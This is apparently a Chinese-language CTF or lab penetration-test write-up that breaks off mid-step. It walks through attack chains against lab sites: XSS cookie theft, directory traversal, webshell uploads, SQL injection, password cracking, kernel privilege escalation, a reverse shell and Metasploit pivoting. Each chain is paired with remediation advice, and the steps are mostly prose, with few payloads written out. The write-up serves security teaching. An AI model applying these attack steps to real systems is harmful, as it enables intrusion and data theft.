# 1. 实验一
## 问题一
### 渗透流程
<XSS(跨站脚本攻击)>
1. 思路梳理：
	发现网站新闻页有评论框 - 可能的 XSS 漏洞利用，
	通过构造 XSS Payload 验证，确认站点存在 存储型XSS 漏洞。
	存储型XSS 攻击思路 -> 获取后台 管理员Cookie 达成 无账号登录管理后台
	在本机搭建简易服务器，获取 XSS 返回的 Cookie
2. 漏洞利用：
	获取 管理员Cookie 之后，可以绕过登录验证登录管理后台
	使用Burpsuite抓包，修改登录时的请求包，将请求包的 Cookie 替换为 管理员Cookie。

3. 夺旗：flag1{498cc55df0c7a39c} 就在管理系统后台的【用户管理】菜单的管理员的用户描述中。

### **漏洞链条分析**

| 阶段         | 技术要点            | 说明                                                 |
| ---------- | --------------- | -------------------------------------------------- |
| 输入点发现      | 评论框存在存储型 XSS 漏洞 | 攻击者在新闻页评论框注入恶意脚本，脚本被后台记录并反射给其他用户。                  |
| Payload 触发 | 管理员访问被注入页面      | 注入的 XSS Payload 被后台管理员浏览器执行，发送其 Cookie 到攻击者搭建的服务端。 |
| Cookie 获取  | 搭建监听服务          | 攻击者监听恶意脚本回传的数据，捕获管理员 Cookie。                       |
| 权限劫持       | 使用管理员 Cookie 登录 | 利用 BurpSuite 替换请求包中的 Cookie，实现无需密码直接登录后台。          |
| 信息窃取       | 后台获取 flag1      | 成功访问【用户管理】页面，读取隐藏的 flag 信息。                        |
|            |                 |                                                    |

### **修复建议**

|漏洞类型|防御措施|
|---|---|
|存储型 XSS|1. 前后端统一对用户输入进行严格 HTML/JS 编码处理（如使用 `OWASP ESAPI`）。2. 针对评论、表单等可输入位置使用白名单过滤机制，禁止注入脚本内容。|
|Cookie 窃取|1. 设置 Cookie 的 `HttpOnly` 属性，防止通过 JS 获取。2. 启用 CSRF Token 验证，限制非法请求冒充用户身份发起操作。|
|会话劫持|1. 为敏感操作加入验证码或行为验证，防止重放攻击。2. 设置会话失效机制（如短生命周期 + IP绑定策略）。|
|前端输出缺陷|1. 所有动态内容在渲染前进行 `escape` 处理，避免原样输出脚本。2. 使用安全的前端模板引擎，自动处理插值编码。|


### **总结**

本次攻击通过在评论框注入 XSS Payload，利用管理员访问行为执行恶意脚本，进而获取其 Cookie 并实现后台权限劫持。该攻击体现了典型的**存储型 XSS 攻击链条**，一旦成功可完全绕过身份验证系统，直接进入后台并提取敏感信息（如 flag）。

防护重点应放在：输入验证与输出编码、Cookie 安全属性设置、以及后台认证机制的强化。通过“前端输入检查 + 后端严格过滤 + 安全会话管理”的多层策略，可有效阻断此类攻击路径。

## 问题二
### 渗透流程
<目录穿越漏洞>
1. 信息收集：
	通过管理后台特征和搜索引擎，获知该CMS为“OFCMS”，
	在网上搜集代码审计文章，发现该CMS存在目录遍历漏洞。

2. 漏洞利用：
	利用 Burpsuite 抓包，抓切换目录的包，然后发起重放攻击，
	并对 dir参数 利用 `../` 进行目录穿越测试。
	发现存在，并继续穿透，直到发现 Tomcat目录 ，找到conf/tomcat-users.xml，
	就可以获取 tomcat 的账号密码。
3. 夺旗：flag2
	访问`http://www.qianxin.com/manager/html` 然后输入账号密码，flag2{1595a7d9910930ca} 就在里面。
	


### **漏洞链条分析**

|阶段|技术要点|说明|
|---|---|---|
|信息收集|确定后台为 OFCMS|搜索引擎 + 页面特征识别后台类型，挖掘已知漏洞资源。|
|参数注入|构造路径穿越 Payload|修改 `dir=../../...` 参数，尝试向上穿越至敏感目录。|
|敏感信息获取|读取 tomcat-users.xml|成功访问 `/conf/tomcat-users.xml`，获取管理口令。|
|权限获取|登录管理控制台|使用口令登录 Tomcat 管理页面，读取 flag2 内容。|

### **修复建议**

| 漏洞类型     | 防御措施                                                                                |
| -------- | ----------------------------------------------------------------------------------- |
| 目录遍历漏洞   | 1. 后端对文件路径参数进行 **严格白名单校验**，拒绝包含 `../` 等非法路径的请求。2. 禁止前端传入目录路径，使用服务端路径映射机制处理资源访问。     |
| Web 配置泄露 | 1. 将 `conf`、`WEB-INF` 等目录设为不可被 Web 访问。2. 使用 Web 容器（如 Tomcat）配置访问控制规则，屏蔽管理文件夹对外访问权限。 |
| 系统默认配置风险 | 1. 修改 Tomcat 默认管理页面路径和默认账户名。2. 管理口令使用强密码，并通过访问控制、VPN、白名单等机制限制访问范围。                  |
| 第三方组件漏洞  | 1. 关注 CMS 等第三方组件安全公告，定期更新版本。2. 对公开系统定期做漏洞扫描和配置审计。                                   |

### **总结**

该攻击链充分体现了目录遍历漏洞的危害性——一旦攻击者能够成功穿透路径结构访问系统配置文件，便可能轻松获取远程控制权限。攻击过程中无需凭证，仅依赖对参数控制和公开资源的了解即可完成权限获取与数据提取。

企业在部署 Web 系统时，务必对第三方组件进行审计与加固，尤其是限制任意目录参数传入，避免敏感配置文件对外暴露，并结合访问控制、最小权限与日志监控等机制提升整体安全性。

## 问题三
### 渗透流程
<文件上传漏洞>
1. 思路梳理：
	上一个任务点已经成功登录了 tomcat 的管理界面，
	通过此界面可以上传jsp木马，然后getShell，不过在 tomcat 管理界面无法直接上传jsp文件，需要先打包成war文件。

2. getShell：
	通过 tomcat 管理界面植入打包成war的 webShell，并用远程工具连接即可，
	这里的工具选择 CKnife。
	使用 Cknife 连接`http://www.qianxin.com/webshell/webshell.jsp`，
	输入密码“Cknife”即可连上。

3. 夺旗：flag3
	登录网站之后，flag3{e0c34f72c42d6b90} 就在目录中。
	
### **漏洞链条分析**

|阶段|技术要点|说明|
|---|---|---|
|初始控制|登录 Tomcat 管理界面|基于上一问题中通过目录遍历获取的账户密码成功登录管理后台。|
|利用上传功能|上传恶意 WAR 包|使用 JSP WebShell 打包成 WAR 包，通过 Tomcat 的 Web 应用部署功能上传。|
|命令执行|远程连接 WebShell|使用 CKnife 等工具访问并连接 `webshell.jsp` 页面，实现远程命令执行。|
|权限利用|系统访问和文件操作|成功执行命令后，定位到 Web 目录下的 flag 文件并读取内容。|

### **修复建议**

|漏洞类型|防御措施|
|---|---|
|WebShell 上传风险|1. 禁止通过 Web 管理界面部署未经签名的 WAR 包。2. 使用安全加固的管理策略，关闭远程上传部署功能，或设置独立认证机制。|
|JSP 脚本执行|1. 禁止生产环境中部署 JSP 执行环境或禁用脚本执行功能。2. 使用 WAF 过滤上传文件类型和访问路径。|
|上传验证缺失|1. 对上传文件进行后缀、MIME 类型、内容等多重校验。2. 上传内容存储于非 Web 目录，避免直接访问。|
|管理后台配置风险|1. Tomcat 管理页面仅对内网开放，或设置 IP 白名单。2. 强化后台认证机制，例如双因素认证（2FA）或单点登录系统（SSO）。|

### **总结**
本次攻击基于前期已获取的 Tomcat 管理权限，通过上传打包的 WebShell 获取远程控制权，属于典型的**持久化控制阶段攻击**。如果缺乏必要的部署验证和文件访问限制，攻击者可以持续操控服务器、植入后门，甚至横向移动到其他系统。

防范此类攻击的关键在于**严格限制管理功能使用范围**，**强化上传验证机制**，并通过 **入侵检测、防火墙与安全审计系统** 构建纵深防御体系，从而有效应对 WebShell 类威胁。

---

# 2. 实验二

## 问题四
### 渗透流程
<sql注入漏洞>
1. 思路整理：
	从页面很多地方可以看出该CMS是一个开源CMS，有时候开发者会魔改开源项目，
	但是仍然有可能有一些漏洞会留下并被利用。
	
2. 利用 wwwscan工具 对网站目录进行收集
	在发现了目录之后，需要逐个分析、去验证哪个目录可能存在漏洞，
	在本项目中，发现 sql文件夹 有异常返回结果。
	判断存在 sql注入漏洞。
	

3. 漏洞利用：sql注入漏洞
	因为存在 sql注入漏洞，我们可以通过不断尝试，获取数据库信息。
	通过精心构造的 url，可以获取 数据库 中 dede_damin表 信息。
	
	
4. 夺旗：
	flag4{c261a93b636d1975} 就在dede_admin表中。
	

### **漏洞链条分析**

|阶段|技术要点|说明|
|---|---|---|
|信息收集|使用扫描器识别目录结构|借助工具（如 `wwwscan`）扫描得到 `/sql/` 相关敏感目录。|
|确认注入点|目录返回值异常|通过观察响应行为异常的页面，判断存在可注入的参数接口。|
|注入利用|构造 Payload 获取数据库结构|构造联合查询等注入语句，提取 `dede_admin` 等敏感表信息。|
|数据提取|提取用户名与密码字段|成功读取含 flag 内容的管理员表字段，完成数据窃取。|

### **修复建议**

|漏洞类型|防御措施|
|---|---|
|SQL 注入|1. 使用 ORM 框架或预编译语句（如 `PreparedStatement`）防止注入。2. 对用户输入严格过滤，禁止传入非法字符（如 `'`, `--`, `;`）。|
|异常目录暴露|1. 删除未使用的测试接口与调试路径。2. 使用 Web 应用防火墙（WAF）过滤敏感路径访问行为。|
|数据库信息泄露|1. 限制 Web 服务访问数据库权限，仅开放必要字段与操作。2. 开启数据库访问审计与敏感信息加密。|
|开源系统魔改风险|1. 定期关注所用 CMS 框架漏洞通告，及时打补丁。2. 对第三方插件与组件进行代码审计和权限隔离。|

### **总结**

本次攻击基于典型的 **开源 CMS 残留 SQL 注入漏洞**，攻击者通过扫描工具识别目录结构后，精确定位漏洞点并成功提取了数据库敏感信息，最终读取到包含 flag 的字段。

此类攻击表明，即使系统表面经过改造，只要底层代码逻辑存在疏漏，仍难逃被注入攻击。企业应重点关注 **代码层防护** 与 **数据库最小权限配置**，结合 **安全扫描** 和 **WAF 防护** 实现注入攻击的有效拦截。


## 问题五
### 渗透流程
<未授权访问> + <弱口令破解>
在获取flag4的过程中，我们已经获知了 dede_admin表 的内容，
也就是说我们已经拿到了管理员账号密码信息。
但是我们只能拿到加密后的密码，
通过互联网，可以查询到dedecms的加密算法，
以此，可以通过其他方法破解MD5值。

1. 利用 MD5Crack V3.4工具 破解密码
	将处理后的MD5值输入到工具的【破解单个密文】的输入框中，
	然后选择“list.txt”字典进行爆破。
	

2. 登录后台：
	访问`http://news.qianxin.com/manager/login.php`,并使用爆破出的密码登录管理员账户，成功登录后台。

3. 夺旗：
	flag5{b9719d911017c592} 就在登陆后的后台页面中。
	


    
### 漏洞链条分析

|阶段|所用技术 / 行为|所属漏洞类型|
|---|---|---|
|获取 `dede_admin`|SQL注入 / 信息泄露 / 配置不当|信息泄露漏洞（Information Disclosure）|
|MD5 破解|利用工具或字典爆破 MD5 密码|密码学漏洞（弱加密）|
|后台登录|使用破解出的凭据登录|身份认证绕过 / 密码猜测攻击|
|夺取 flag5|后台缺乏授权控制 / 敏感信息展示过于直白|水平越权 / 后台信息泄露|

### 修复建议
- 使用强哈希算法（如 bcrypt、scrypt、argon2）替代 MD5
- 后台增加验证码、IP 限制、二次认证
- 对管理员密码强制复杂度要求，防止弱口令
- 限制后台目录访问、加白名单、移除 flag 等敏感信息展示
- 定期扫描敏感信息泄露，限制 SQL 接口权限


### 总结
**这个 getshell + 登录后台的流程，本质上是一个典型的攻击链，涉及多个层级漏洞，其中核心是**： 
- **信息泄露**（dede_admin 表）
- **弱加密破解**（MD5 密码爆破）
- **后台认证绕过**
- **后台权限控制不严**
    
整个链条中，**每个环节都没有被加固或监控，导致最终攻击者成功登录并夺取 flag**。
## 问题六
### 渗透流程
<任意读取文件漏洞>
在flag5任务点中，我们已经登录了dedecms后台。
通过分析，我们可以获知：“dede数据库配置文件所在路径为：/data/common.ini.php”。

1. 漏洞利用
	在CMS中有文件管理器，其中我们可以直接查阅文件信息，
	我们在根目录中可以看到data文件夹，点击进入，
	可以看到我们需要的common.ini.php文件。

2. 夺旗：
	编辑 common.ini.php文件，可以查看文件内容，
	在该文件内容中可以发现 flag6{dd9e7b0c1a6227a2}。
	


### 漏洞链条分析

|阶段|行为|所属漏洞类型|
|---|---|---|
|登录后台|合理权限（但是通过攻击获取）|身份认证绕过（前置链）|
|使用文件管理器读取配置文件|功能授权过宽 / 后台功能滥用|垂直越权 / 设计缺陷|
|查看明文配置并获取 flag6|配置明文包含敏感信息|信息泄露（Sensitive Info Disclosure）|


### 修复建议
1. **限制文件管理器权限**：建议禁用该模块或仅允许特定用户角色使用。
2. **配置文件保护**：
    - 后台不应直接展示配置文件
    - 采用 `.htaccess` 或 nginx 禁止 Web 访问 `/data` 等敏感目录
3. **敏感信息加密存储**（例如数据库密码）
4. **审计后台操作日志**，避免后台被横向滥用

### 总结
**flag6 的获取是一次后门功能滥用 + 信息泄露的结合攻击，攻击者通过后台文件管理器浏览敏感配置文件，从而获取到系统关键信息（如 flag、数据库凭据）**。

这个过程说明了
- 后台高危功能的设计缺陷
- 敏感信息未被妥善保护
- 管理员权限一旦失守，整个系统将无所遁形

---

# 3. 实验三

## 问题七
### 渗透流程
<文件上传漏洞>
若想读取/home 下的文件，需要得到服务器命令执行的权限。
流程：先getShell，查看webShell权限，如果足够就可以直接读取，
如果不够就要想办法先提权。

1. getShell：
	我们已经登录了管理后台，我们只需要先编写经典的php一句话木马，
	然后利用后台文件上传功能上传我们的小马。
	

2. 连接webShell
	小马上传成功之后，尝试访问上传地址，发现无报错，
	证明上传成功，服务器成功解析。
	使用 CKnife工具 连接小马。
	
	

3. 查看webShell权限
	CKnife工具提供了 Terminal 功能，通过虚拟终端输入“id”命令查询当前shell权限。
	
	当前shell权限为 apache，但是本项目中flag7对任意用户可读，所以就不需要提权了。

4. 夺旗：
	通过在终端中输入命令 `cat /home/flag7` 即可获取 flag7{4558894a57d3a6bc}。
	

### **漏洞链条分析**

|阶段|技术要点|说明|
|---|---|---|
|已有权限|后台管理权限|攻击者已进入后台系统，具备操作上传组件的权限。|
|WebShell 上传|一句话木马上传成功|使用 PHP 经典一句话木马，绕过上传限制。|
|命令执行|借助 CKnife 建立远程交互|WebShell 被成功解析，远程获取 Shell 权限。|
|权限判断|当前为 apache 用户|使用 `id` 命令确认当前为低权限 Web 服务用户，但目标文件可读。|
|文件读取|读取 `/home/flag7` 文件|无需提权，通过 Shell 直接读取目标文件，获取 flag 内容。|

### **修复建议**

|漏洞类型|防御措施|
|---|---|
|文件上传漏洞|1. 对上传文件类型进行白名单校验，禁止 `.php`, `.jsp` 等可执行后缀上传。2. 上传目录应设置为不可执行权限（`noexec`），并隔离部署。|
|木马执行|1. 拦截可疑文件请求路径，限制解析规则（如禁止 Nginx 对特定目录解析 PHP）。2. 使用 Web 应用防火墙（WAF）检测特征木马 Payload。|
|WebShell 检测|1. 部署 WebShell 行为监测工具，如实时文件审计系统（如 inotify + 自定义规则）。2. 设置自动告警机制，当新文件含恶意代码片段时立即响应。|
|权限控制|1. 限制 Web 服务运行用户权限，防止其访问敏感目录。2. `/home` 下文件应设置适当权限（如 600）或启用强访问控制策略（SELinux、AppArmor）。|

### **总结**

flag7 的获取核心在于：**利用后台文件上传绕过验证机制，获取 Shell 并读取服务器文件内容**。尽管当前 Shell 为低权限 `apache` 用户，但由于目标文件权限配置不当，仍被成功读取。

此案例突显了上传漏洞的破坏力，即使攻击者未提权，只要上传目录配置不当，亦可能对服务器产生严重信息泄露风险。建议企业重点强化 **上传组件的校验机制**，并合理划分文件权限与执行边界，确保最低权限执行与攻击面最小化。


## 问题八
### 渗透流程
<弱口令漏洞>
我们已经获知了目标站点是使用 WordPress 搭建的站点，
我们可以使用 WPScan工具 扫描漏洞。

1. 利用工具 WPScan 扫描
	直接使用 WPScan 扫描，发现没有检测出有漏洞的插件，那就需要换一种思路，
	
	在网站中单击作者名称，页面发生了跳转，我们观察url，发现url中的/author/john，即作者为john，所以用户名为john。
	继续使用 WPScan 扫描，不过这次选择爆破用户密码。
	

2. 登陆后台
	通过工具我们爆破出了密码，这样我们就可以直接登录后台了。

3. 夺旗：
	成功登录后台管理系统之后，单击【文章】页面，就可以看到草稿文章的 flag8{8ebf5950de08089a}。
	


### **漏洞链条分析**

|阶段|技术要点|说明|
|---|---|---|
|信息收集|发现 WordPress 架构|可通过页面特征、CMS识别工具确认。|
|用户名枚举|作者信息泄露|URL 格式 `/author/john` 暴露用户名 `john`。|
|弱口令爆破|使用 WPScan 爆破口令|利用公开字典或自定义字典进行密码尝试。|
|登录成功|后台管理权限|使用爆破成功的账号密码成功登录后台。|
|获取flag|文章草稿中发现flag|flag8{8ebf5950de08089a} 被嵌入在后台文章草稿中。|

### **修复建议**

|漏洞类型|防御建议|
|---|---|
|用户名枚举|1. 隐藏作者用户名 URL（如配置 slug 随机值或重写规则）。2. 限制 `/author` 类型路径的公开访问。|
|弱口令|1. 启用强密码策略，限制常用口令（admin/123456）。2. 定期进行密码审计和过期更换。|
|登录安全|1. 启用验证码（reCAPTCHA）或登录防护插件（如 Limit Login Attempts）。2. 对登录接口添加 WAF 校验，阻断批量请求。|
|工具对抗|1. 配置 WPScan 抵御插件，如禁用用户信息 API、限制访问头。2. 结合 Fail2Ban、iptables 对爆破行为进行封禁。|

### **总结**

该渗透点体现了典型的 WordPress 安全短板：“**用户信息泄露 + 弱口令暴力破解**”。只要用户名一旦被识别，加之密码无复杂度要求，就极易被 WPScan、Hydra 等工具暴力获取，从而造成后台失守。

**flag8 的关键突破点在于用户名的泄露与后台未设置爆破保护机制。** 建议任何涉及 CMS 系统的 Web 服务，优先从 “默认路径隐藏 + 用户信息保护 + 登录口令强化 + 登录限速防爆破” 四方面全面部署防御。


## 问题九
### 渗透流程
<任意代码执行(RCE)> + <文件读取泄露>
flag8流程中，我们已经进入了网站后台，可以getShell然后读取网站配置文件。

1. getShell
	在网站左侧菜单中单击【插件】->【编辑】菜单，然后选择 Hello Dolly插件。
	在其中 function语句 上面增加 一句话木马 ，之后单击【更新文件】按钮。
	插入完成后，去访问hello.php（插件所在url）看能否正常使用。
	发现正常，使用 CKnife工具 连接shell，密码 cmd。

2. 夺旗：
	通过 CKnife工具，查看网站文件目录列表，在html目录中，
	可以看到配置文件wp-config.php文件，双击该文件即可获取flag9{9ced34482cf96ced}。
	

### 漏洞链条分析

|阶段|行为|漏洞类型|
|---|---|---|
|插件编辑|插入 WebShell|任意代码执行（RCE）|
|访问插件 URL|获取 Shell 权限|后门执行 / 功能滥用|
|使用 CKnife 操作|控制服务器文件系统|权限滥用 / 垂直越权|
|读取配置文件|获取敏感信息与 flag9|信息泄露 / 配置文件暴露|

### 修复建议
1. **禁用插件/主题在线编辑功能**  
    大多数 CMS（如 WordPress、Dedecms）都提供在线代码编辑器，极易被利用，建议直接在后台禁用。
2. **部署 WAF 规则检测后门行为**  
    拦截典型的恶意函数如 `eval`、`base64_decode`、`assert`，同时监控插件文件变更。
3. **最小权限原则运行 Web 服务**  
    Web 服务账户不应拥有敏感配置文件（如 `wp-config.php`）的写权限，必要时仅允许只读访问。
4. **配置文件权限控制**  
    设置 `wp-config.php` 等文件为不可修改，只允许必要进程访问，可通过 `chmod 400`、ACL 或安全模块实现。
5. **及时更新插件与核心系统**  
    删除不必要插件，更新存在漏洞的插件组件，避免被利用进行目录穿越或代码注入。


### 总结

**flag9 的获取，本质是一次后台任意代码执行漏洞被利用，在服务端植入后门，从而获取 WebShell 控制权限，最终通过文件系统浏览读取配置文件中的敏感信息（包括 flag9）。**


---

# 4. 实验四

## 问题十
### 渗透流程
<信息泄露漏洞>
flag9流程中，我们已经读取了WordPress网站的配置文件，配置文件中存放了连接数据库的IP地址、用户名和密码。

1. 夺旗：
	直接在 CKnife工具 中连接数据库即可，flag10{409877992b99dec9} 就在 wordpress数据库 中 的flag表 中。
	
> 注意：本项目中可以直接连接，但是实战中很有可能对连接的IP有限制，不允许远程访问。

### 漏洞链条分析

|阶段|行为|漏洞类型|
|---|---|---|
|配置文件泄露|获取数据库连接信息|信息泄露|
|远程连接数据库|使用明文账号连接|配置缺陷 / 网络暴露|
|查询敏感数据表|读取 flag10|数据保护不当 / 缺少访问控制|

### 修复建议

1. **限制数据库仅本地监听**  

2. **配置防火墙限制入站连接**

3. **规范数据库授权策略**
    - 避免使用通配授权如 `user@'%'`
    - 推荐授权方式为 `user@'127.0.0.1'` 或 `user@'内网段IP'`
4. **保护配置文件安全**
    - 配置文件中的数据库密码应加密存储或使用 Key 管理系统调用
    - 文件权限限制为仅允许应用读取（如 `chmod 640`）


### 总结

**flag10 的获取过程，标志着攻击者完成了从 WebShell 到数据库的数据层渗透，显示出其具备进一步持久化控制目标系统的能力。**

该攻击链条清晰展现了一个典型的渗透闭环过程：

后台登录 → WebShell 权限 → 配置信息泄露 → 数据库接管 → 敏感信息提取

## 问题十一
### 渗透流程
<任意文件写入> + <本地权限提升(LPE)>
想查看系统文件，就需要获取系统权限，前面拿到了WebShell，这个时候就需要提权，
将权限提升至系统权限。

1. 尝试
	在 CKnife工具 中使用 虚拟终端 尝试使用 `ls /root` 
	访问root目录下的所有文件，结果显示权限不允许。
	然后使用 `id` 命令查看当前WebShell权限，发现是www-data权限。
	查看当前操作系统信息，发行版号等，为漏洞利用提权做准备。
	

2. 制作并上传提权脚本
	使用kali自带的 searchsploit工具 搜索exploitdb 中的漏洞利用代码。
	将输出的 `.c` 文件拷贝到/root/下，然后使用 CKnife工具 上传/root/的脚本文件到目标服务器上，找个有权限写文件的地方。
	本项目中将文件写到了tmp/下。
	

3. 反弹shell
	先监听本地端口，然后在对方服务器执行反弹shell命令。
	我们需要先制作 `shell.sh` 文件，然后利用 CKnife工具 上传到目标服务器，
	并添加执行权限，执行脚本，检查本地监听端口，发现反弹成功。
	
	

4. 漏洞利用
	切换到上传提权脚本所在的目录，并编译该`.c`文件生成对应目标文件。
	执行该`.out`文件，运行程序后在执行`id`命令，查看权限发现当前shell已经是root权限了。
	

5. 夺旗：
	直接读取/root/下的flag11文件即可，答案为 flag11{3d0482058402722f}。
	

### 漏洞链条分析

|阶段|行为|漏洞类型|
|---|---|---|
|权限侦察|执行 `id/uname/os-release` 收集信息|信息收集|
|漏洞利用代码上传|通过 WebShell 上传漏洞代码|任意文件写入|
|反弹 Shell|建立远程控制通道|网络权限扩展|
|提权 exploit 执行|执行提权程序获取 root 权限|本地权限提升（LPE）|
|访问 `/root/flag11`|读取系统级敏感文件|系统信息泄露|


### 修复建议
1. **及时更新内核版本与系统补丁**
    - 本地提权几乎都是利用未修补的内核漏洞，定期更新系统以修补已知漏洞。 
2. **最小权限原则运行服务**
    - Web 服务用户（如 `www-data`）不应具有对系统关键目录（如 `/root`）的写权限。
3. **禁用危险函数 / 编译工具链**
    - 靶机中不应安装 `gcc`、`make` 等编译工具，或者使用 AppArmor、SELinux 等工具限制其行为。
4. **监控 WebShell 行为**
    - 检测异常文件上传、反弹连接、执行编译行为等，防止攻击者通过 WebShell 执行恶意操作。
5. **隔离 Web 与系统文件访问权限**
    - 例如，将 `/tmp` 设置为不允许执行的挂载点（`noexec`），以避免 WebShell 执行恶意脚本。

### 总结
**flag11 的获取，标志着从 Web 层完全掌控到系统 Root 权限的跃迁。攻击者从上传提权 exploit 脚本入手，借助内核漏洞实现权限突破，最终读取 /root 下敏感文件，完成控制闭环。**

## 问题十二
### 渗透流程
<任意命令执行漏洞> + <任意文件上传漏洞> + <后台权限获取>
1. 信息收集
	尝试用 Nmap 对前面三个人任务点涉及到的域名进行扫描，
	考虑到前面已经已经getShell，从内网所在的主机发起扫描更为稳妥。
	本项目中，选择反弹blog所在机器shell到本地msf。

2. 反弹shell
	利用msf生成后门，同时在本地配置监听，通过菜刀在blog所在机器上上传后门，
	并赋予权限，执行后获取会话。
	
	
3. 添加内网路由
	査看blog所在的内网地址并增加对应的路由，使msfconsole中的所有模块均可以直接访问172.10.10.0/24网段。添加路由后使meterpreter会话在后台运行，通过route print再次查看并确认路由添加成功。
	

4. 扫描
